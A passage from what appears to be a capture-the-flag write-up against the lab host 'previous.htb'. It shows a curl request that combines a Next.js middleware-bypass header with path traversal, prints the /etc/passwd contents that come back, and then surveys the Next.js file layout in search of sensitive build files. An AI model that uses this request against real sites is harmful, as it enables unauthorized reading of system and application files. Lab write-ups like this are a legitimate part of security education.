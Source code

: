 ```console
ETag: "41amqg1v4m26j"
```

Get response `200-status code`

```

$ curl http://previous.htb/api/download?example=../../../etc/passwd -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'

root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```
Now let's check for sensitive hidden files which helps to build this application.
* On googling it for the nextjs directory/file structure it follows such type of structure:

```
my-next-app/
├── app/
│   ├── layout.js        
│   ├── page.js          
│   ├── about/
│   │   ├── layout.js    
│   │   └── page.js      
│   ├── blog/
│   │   ├── layout.js    
│   │   ├── page.js      
│   │   └── [slug]/
│   │       └── page.js  
│   └── dashboard/
│       ├── layout.js    
│       └── page.js      
├── public/
│   ├── logo.png         
│   └── favicon.ico      
├── node_modules/        
├── package.json         
├── next.config.js       
└── .next/               
```
